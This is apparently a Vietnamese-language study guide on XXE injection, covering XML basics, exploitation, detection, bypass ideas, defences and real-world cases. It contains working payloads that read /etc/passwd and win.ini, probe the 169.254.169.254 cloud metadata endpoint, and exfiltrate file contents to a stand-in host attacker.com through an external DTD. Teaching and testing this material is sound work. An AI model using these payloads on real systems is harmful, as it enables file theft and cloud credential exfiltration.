


# XML External Entity XXE Injection

## Tài liệu tham khảo

* https://portswigger.net/web-security/xxe
* https://viblo.asia/p/xxe-injection-vulnerabilities-lo-hong-xml-phan-1-vlZL992BLQK
* https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
* https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
* [portswigger.net/web-security/xxe/blind](https://portswigger.net/web-security/xxe/blind)

## Bố cục nội dung

* Kiến thức nền XML
  * XML là gì và Cấu trúc XML chuẩn
  * XML Parser là gì và Luồng xử lý XML
  * DTD Document Type Definition là gì
  * ENTITY trong XML
    * General Entity vs Parameter Entity
    * Internal Entity vs External Entity
    * Cú pháp gọi Entity SYSTEM và PUBLIC
* Tổng quan về lỗ hổng XXE
  * XXE Injection là gì
  * Nguyên nhân cốt lõi
  * Điều kiện để xảy ra XXE
  * Luồng dữ liệu lỗi: Request đến Parser đến DTD đến Entity đến SYSTEM đến Resource đến Parser đọc file đến Application
* Phân loại XML Parser và Mức độ an toàn
  * Các parser phổ biến: DOM, SAX
  * Parser mặc định nguy hiểm hoặc an toàn
  * Bản chất quyết định độ an toàn của Parser
  * Cách cấu hình Parser an toàn
* Các kỹ thuật khai thác XXE
  * Nhóm Inband XXE hiển thị kết quả trực tiếp
    * Đọc file hệ thống
    * Tấn công SSRF
  * Nhóm Blind XXE khai thác mù
    * Error based XXE kích hoạt thông báo lỗi để đọc dữ liệu
    * Out of Band OOB XXE truyền dữ liệu ra ngoài qua HTTP hoặc DNS
  * Nhóm các vector nâng cao khác
    * XInclude Injection
    * Khai thác qua tải tệp tin SVG DOCX và SOAP
* Quy trình phát hiện lỗ hổng
  * Phát hiện qua Content Type và phản hồi ứng dụng
  * Kiểm thử mù sử dụng kỹ thuật OAST
  * Đánh giá mã nguồn
  * Các công cụ hỗ trợ
* Kỹ thuật Bypass qua mặt bộ lọc
  * Encoding
  * External DTD
  * Parameter Entity
  * Local DTD
  * WAF Parser Difference
* Tác động của lỗ hổng
  * Lộ thông tin nhạy cảm
  * Quét cổng nội bộ
  * Từ chối dịch vụ DoS
  * Thực thi mã từ xa RCE
* Biện pháp phòng chống
  * Nguyên tắc cốt lõi: Tắt DTD và External Entity
  * Hướng dẫn cấu hình an toàn cho các ngôn ngữ chính
* Case Study thực tế và Lịch sử CVE nổi tiếng
  * Lab 1: Đọc file passwd
  * Lab 2: SSRF Metadata
  * Lab 3: Blind XXE
  * Lab 4: SVG Upload
  * Lab 5: SOAP
  * Một vài CVE nổi tiếng
* Danh sách kiểm tra Pentest Checklist và Cheat Sheet nhanh
  * Các vị trí thường gặp XML
  * Các mẫu Payload thông dụng

---

## Kiến thức nền XML

### XML là gì và Cấu trúc XML chuẩn

XML eXtensible Markup Language là ngôn ngữ đánh dấu được thiết kế để lưu trữ và truyền tải dữ liệu. Các thẻ trong XML do người dùng tự định nghĩa dựa trên cấu trúc dữ liệu thực tế.

Một tài liệu XML chuẩn bao gồm các thành phần sau:

* Khai báo XML (Prolog): Định nghĩa phiên bản XML và mã hóa ký tự.
* Phần tử gốc (Root Element): Thẻ cha duy nhất bao bọc toàn bộ dữ liệu.
* Phần tử con (Child Elements): Các thẻ con nằm trong phần tử gốc.

Ví dụ về cấu trúc XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<bookstore>
    <book id="1">
        <title>Giao trinh Pentest</title>
        <author>Admin</author>
        <price>50000</price>
    </book>
</bookstore>
```

---

### XML Parser là gì và Luồng xử lý XML

XML Parser là thư viện phần mềm thực hiện nhiệm vụ:

* Đọc hiểu và phân tích cú pháp tài liệu XML.
* Kiểm tra tính hợp lệ của cấu trúc thẻ.
* Chuyển đổi dữ liệu XML thành các đối tượng trong bộ nhớ để ứng dụng xử lý.

Luồng xử lý dữ liệu:

1. Ứng dụng tiếp nhận chuỗi XML từ người dùng.
2. XML Parser tiến hành phân tích cú pháp.
3. XML Parser giải quyết các tham chiếu thực thể và nạp tài nguyên nếu có yêu cầu.
4. Kết quả phân tích được chuyển cho ứng dụng thực hiện nghiệp vụ tiếp theo.

---

### DTD Document Type Definition là gì

DTD xác định cấu trúc hợp lệ của một tài liệu XML. Thành phần này quy định các thẻ được phép xuất hiện và mối quan hệ giữa các thẻ đó.

Khai báo DTD bắt đầu bằng từ khóa `DOCTYPE` và nằm ngay phía dưới dòng khai báo XML.

Ví dụ về DTD nội bộ:

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
  <!ELEMENT message (to, from, text)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT text (#PCDATA)>
]>
<message>
  <to>UserA</to>
  <from>UserB</from>
  <text>Hoc tap an toan thong tin</text>
</message>
```

---

### ENTITY trong XML

Entity hoạt động tương tự như biến số. Giá trị được định nghĩa một lần trong DTD và có thể được gọi lại nhiều lần trong tài liệu XML.

#### General Entity vs Parameter Entity

* General Entity: Khai báo bằng cú pháp `<!ENTITY name 'value'>` và được gọi bằng cú pháp `&name;` trong phần thân tài liệu XML.
* Parameter Entity: Khai báo bằng dấu phần trăm `<!ENTITY % name 'value'>` và chỉ được gọi bằng cú pháp `%name;` bên trong DTD.

#### Internal Entity vs External Entity

* Internal Entity: Giá trị được định nghĩa trực tiếp ngay trong DTD.
* External Entity: Giá trị được tham chiếu từ tệp tin hệ thống hoặc đường dẫn URL bên ngoài bằng từ khóa SYSTEM hoặc PUBLIC.

#### Cú pháp gọi Entity SYSTEM và PUBLIC

* SYSTEM: Sử dụng đường dẫn cục bộ hoặc URL để nạp tài nguyên trực tiếp.
  * Ví dụ: `<!ENTITY file SYSTEM 'file:///etc/passwd'>`
* PUBLIC: Sử dụng định danh công khai được chuẩn hóa kèm đường dẫn dự phòng.
  * Ví dụ: `<!ENTITY dtd PUBLIC 'public_id' 'http://example.com/rule.dtd'>`

---

## Tổng quan về lỗ hổng XXE

### XXE Injection là gì

XXE Injection là lỗ hổng bảo mật xảy ra khi ứng dụng phân tích cú pháp đầu vào XML chứa tham chiếu thực thể bên ngoài không an toàn. Máy chủ sẽ tự động nạp và xử lý các tài nguyên được chỉ định trong thực thể đó.

### Nguyên nhân cốt lõi

Lỗ hổng phát sinh do cấu hình mặc định không an toàn của XML Parser. Các cấu hình này cho phép xử lý DTD từ nguồn không tin cậy và tự động phân giải các thực thể bên ngoài.

### Điều kiện để xảy ra XXE

* Ứng dụng tiếp nhận và phân tích đầu vào định dạng XML.
* XML Parser cho phép xử lý DTD và thực thể bên ngoài.
* Dữ liệu XML đầu vào do người dùng kiểm soát và không được lọc bỏ từ khóa nguy hiểm.

### Luồng dữ liệu lỗi

Sơ đồ luồng dữ liệu xử lý thực thể bên ngoài:



---

## Phân loại XML Parser và Mức độ an toàn

### Các parser phổ biến

Đối với người mới học pentest, việc nắm vững cách hoạt động của hai mô hình parser sau là quan trọng nhất:

* DOM Document Object Model: Tải toàn bộ cấu trúc XML vào bộ nhớ dưới dạng cây đối tượng.
* SAX Simple API for XML: Phân tích tuần tự dựa trên sự kiện giúp tiết kiệm bộ nhớ.

Các parser khác hoặc nâng cao hơn:

* StAX Streaming API for XML: Cơ chế phân tích luồng dạng kéo (đọc thêm để tham khảo).
* libxml: Thư viện C làm nền tảng xử lý XML cho nhiều ngôn ngữ lập trình (tìm hiểu sau khi đã vững cơ bản).

### Bản chất quyết định độ an toàn của Parser

Điều quyết định khả năng xảy ra lỗ hổng XXE không phụ thuộc vào việc ứng dụng sử dụng DOM hay SAX. Mức độ an toàn được quyết định hoàn toàn bởi các cấu hình sau trên parser:

* Có cho phép xử lý DTD (Allow DTD) hay không.
* Có cho phép phân giải External Entity hay không.
* Có cho phép tải các tài nguyên bên ngoài qua các giao thức mạng hoặc file hay không.

### Cách cấu hình Parser an toàn

Ví dụ cấu hình an toàn cho ngôn ngữ Java:

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
try {
    dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
    dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
    dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
    dbf.setXIncludeAware(false);
    dbf.setExpandEntityReferences(false);
} catch (ParserConfigurationException e) {
    // Xu ly loi cau hinh
}
```

---

## Các kỹ thuật khai thác XXE

### Nhóm Inband XXE hiển thị kết quả trực tiếp

Kỹ thuật này được áp dụng khi kết quả xử lý thực thể bên ngoài được trả về trực tiếp trong phản hồi HTTP từ máy chủ.

#### Đọc file hệ thống

Tác nhân tấn công định nghĩa thực thể trỏ đến file cục bộ cần đọc trên máy chủ.

Ví dụ Request:

```http
POST /api/stock HTTP/1.1
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

#### Tấn công SSRF

Tác nhân tấn công điều hướng máy chủ thực hiện các yêu cầu HTTP đến dịch vụ nội bộ.

Ví dụ Payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/">
]>
<stockCheck>
  <productId>&ssrf;</productId>
</stockCheck>
```

---

### Nhóm Blind XXE khai thác mù

Kỹ thuật áp dụng khi ứng dụng xử lý XML nhưng không trả về nội dung thực thể trong phản hồi HTTP.

#### Error based XXE

Ý tưởng chính:
Tác nhân tấn công cố tình bắt parser mở một đường dẫn không tồn tại trên hệ thống. Dữ liệu nhạy cảm cần đọc sẽ được lồng vào tên đường dẫn đó. Khi parser báo lỗi không tìm thấy đường dẫn, thông báo lỗi phản hồi về sẽ chứa toàn bộ nội dung của dữ liệu nhạy cảm cần đọc.

Ví dụ Payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/hostname">
  <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///invalid/%file;'>">
  %eval;
  %error;
]>
<foo>bar</foo>
```

#### Out of Band OOB XXE

Ý tưởng chính:
Quá trình khai thác diễn ra theo luồng tuần tự:
XML Parser đọc tệp tin hệ thống cần lấy dữ liệu, sau đó thực hiện một yêu cầu HTTP gửi nội dung tệp tin đó đến máy chủ của tác nhân tấn công.

Sơ đồ luồng hoạt động:



Để thực hiện luồng này, tệp tin cấu hình evil.dtd được lưu tại máy chủ giám sát:

```xml
<!ENTITY % eval "<!ENTITY % exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
```

Payload gửi đến ứng dụng mục tiêu để kích hoạt tải DTD và gửi dữ liệu:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
  %exfiltrate;
]>
<foo>bar</foo>
```

---

### Nhóm các vector nâng cao khác

#### XInclude Injection

Sử dụng khi ứng dụng chỉ nhận một giá trị đầu vào rồi chèn vào tài liệu XML lớn hơn ở phía máy chủ.

Ví dụ Payload:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

#### Khai thác qua tải tệp tin SVG DOCX và SOAP

* SVG: Định dạng ảnh vector dựa trên XML. Có thể chèn thực thể độc hại vào cấu trúc thẻ để khai thác khi máy chủ xử lý ảnh.
* DOCX: Định dạng tệp tin Office thực chất là gói nén ZIP chứa các file XML. Sửa đổi cấu trúc tệp XML bên trong để kích hoạt lỗ hổng.
* SOAP: Giao thức truyền tin dựa trên XML, dễ bị khai thác nếu cấu hình endpoint thiếu an toàn.

---

## Quy trình phát hiện lỗ hổng

### Phát hiện qua Content Type và phản hồi ứng dụng

Dấu hiệu đầu tiên cần quan sát là sự hiện diện của các tiêu đề Content Type chấp nhận dữ liệu XML trong các yêu cầu HTTP:

* application/xml
* text/xml
* application/soap+xml
* application/xhtml+xml

Thử nghiệm gửi các ký tự đặc biệt hoặc cấu trúc XML đơn giản để kiểm tra phản hồi từ máy chủ.

### Kiểm thử mù sử dụng kỹ thuật OAST

Sử dụng máy chủ giám sát để phát hiện các tương tác mạng ngược từ hệ thống đích.

Ví dụ Payload kiểm tra:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://monitor.com"> ]>
<foo>&xxe;</foo>
```

### Đánh giá mã nguồn

Rà soát mã nguồn để xác định các thư viện khởi tạo XML Parser và kiểm tra các cấu hình ngăn chặn thực thể bên ngoài.

### Các công cụ hỗ trợ

* Burp Collaborator giúp ghi nhận các kết nối Out of Band từ máy chủ đích.
* XXEinjector hỗ trợ tự động hóa quá trình trích xuất dữ liệu qua các giao thức mạng.

---

## Kỹ thuật Bypass qua mặt bộ lọc

Các kỹ thuật bypass lọc từ khóa hoặc kiểm duyệt XXE phổ biến bao gồm:

* Encoding (Thay đổi định dạng mã hóa ký tự như UTF16)
* External DTD (Sử dụng tệp định nghĩa DTD bên ngoài)
* Parameter Entity (Sử dụng các thực thể tham số trong DTD)
* Local DTD (Lợi dụng các tệp tin DTD có sẵn trên hệ thống)
* WAF Parser Difference (Sự khác biệt trong việc phân tích cú pháp giữa tường lửa và parser thực tế)

---

## Tác động của lỗ hổng

Lỗ hổng XXE rất hiếm khi trực tiếp dẫn tới thực thi mã từ xa RCE. Các tác động phổ biến và thực tế nhất bao gồm ba loại sau:

1. Đọc file hệ thống nhạy cảm (Read File)
2. Tấn công yêu cầu từ phía máy chủ (SSRF)
3. Từ chối dịch vụ (DoS)

Thực thi mã từ xa RCE thường chỉ đạt được khi kết hợp thêm các yếu tố đặc thù khác bao gồm:

* Sử dụng các wrapper đặc biệt của ngôn ngữ như expect:// trong PHP
* Khai thác các Java gadget có sẵn trên hệ thống
* Kết hợp với lỗ hổng deserialization
* Sử dụng SSRF để tấn công các dịch vụ nội bộ không có cấu hình bảo mật như Redis

---

## Biện pháp phòng chống

### Nguyên tắc cốt lõi: Tắt DTD và External Entity

Phương pháp ngăn chặn hiệu quả nhất là vô hiệu hóa tính năng phân tích cú pháp DTD và nạp thực thể bên ngoài của XML Parser.

### Hướng dẫn cấu hình an toàn cho các ngôn ngữ chính

#### Ngôn ngữ PHP

```php
libxml_disable_entity_loader(true);
```

#### Ngôn ngữ .NET

```csharp
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit;
```

#### Ngôn ngữ Python

Sử dụng thư viện defusedxml thay thế cho các thư viện mặc định của hệ thống.

---

## Case Study thực tế và Lịch sử CVE nổi tiếng

### Lab 1: Đọc file passwd trên hệ thống của Uber

Năm 2014, một báo cáo bảo mật đã chỉ ra lỗ hổng XXE tại dịch vụ của Uber. Ứng dụng xử lý dữ liệu XML đầu vào của người dùng mà không chặn thực thể bên ngoài. Tác nhân kiểm thử đã gửi một yêu cầu chứa thực thể SYSTEM trỏ đến file passwd của hệ điều hành Linux và nhận lại toàn bộ nội dung tệp tin này ngay trong phản hồi của máy chủ.

### Lab 2: SSRF Metadata trên hệ thống Riot Games

Tác nhân kiểm thử phát hiện lỗ hổng XXE tại cổng thông tin của Riot Games. Bằng cách định nghĩa thực thể SYSTEM trỏ đến địa chỉ IP dịch vụ đám mây nội bộ `http://169.254.169.254/latest/meta-data/`, đối tượng đã thực hiện thành công việc trích xuất thông tin cấu hình tài khoản AWS Access Key của máy chủ ứng dụng.

### Lab 3: Blind XXE trên hệ thống Google Search Appliance

Nhà nghiên cứu phát hiện Google Search Appliance cho phép tải tệp tin cấu hình XML nhưng không hiển thị kết quả xử lý ra ngoài. Bằng cách áp dụng Parameter Entity kết hợp tệp tin DTD cấu hình bên ngoài để gửi dữ liệu Out of Band, nhà nghiên cứu đã đọc thành công các tệp tin hệ thống của thiết bị này.

### Lab 4: SVG Upload trên hệ thống Wikimedia

Dịch vụ tải tệp tin của Wikimedia cho phép người dùng tải lên hình ảnh định dạng SVG. Do thư viện xử lý hình ảnh không chặn thực thể bên ngoài, tác nhân kiểm thử đã chèn mã độc vào tệp tin SVG để buộc máy chủ Wikimedia thực hiện đọc tệp tin hệ thống và gửi kết quả về.

### Lab 5: SOAP trên các hệ thống quản trị SAP NetWeaver

Nhiều cổng dịch vụ SOAP XML của hệ thống SAP NetWeaver từng bị ảnh hưởng bởi lỗ hổng XXE. Do các API dịch vụ web SOAP cũ không vô hiệu hóa tính năng DTD, các yêu cầu chứa thực thể bên ngoài đã cho phép đọc tệp tin cấu hình hệ thống từ xa mà không cần tài khoản đăng nhập.

### Một vài CVE nổi tiếng

* CVE 2021 29447: Lỗ hổng WordPress Core XXE cho phép đọc tệp tin wp config thông qua tính năng phân tích dữ liệu tệp tin WAV trong thư viện phương tiện.
* Facebook Bug Bounty: Lỗ hổng XXE trị giá 33000 USD cho phép đọc file hệ thống thông qua việc sửa đổi cấu trúc XML của tệp tin tài liệu Word DOCX tải lên hệ thống tuyển dụng.

---

## Danh sách kiểm tra Pentest Checklist và Cheat Sheet nhanh

### Các vị trí thường gặp XML

Mỗi khi phát hiện sự xuất hiện của các từ khóa khai báo cấu trúc XML sau trong yêu cầu, cần thực hiện kiểm tra khả năng khai thác lỗ hổng XXE:

* `DOCTYPE`
* `ENTITY`
* `SYSTEM`
* `PUBLIC`
* `XInclude`

Đặc biệt, mỗi lần thấy sự xuất hiện của từ khóa `<!DOCTYPE` trong dữ liệu gửi lên, cần kiểm tra ngay lập tức khả năng tồn tại lỗ hổng XXE.

### Các mẫu Payload thông dụng

#### Đọc file Linux

```xml
<?xml version="1.0"?><!DOCTYPE x [<!ENTITY test SYSTEM "file:///etc/passwd">]><x>&test;</x>
```

#### Đọc file Windows

```xml
<?xml version="1.0"?><!DOCTYPE x [<!ENTITY test SYSTEM "file:///c:/windows/win.ini">]><x>&test;</x>
```

#### Khai thác mù sử dụng OOB

```xml
<!DOCTYPE r [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
```
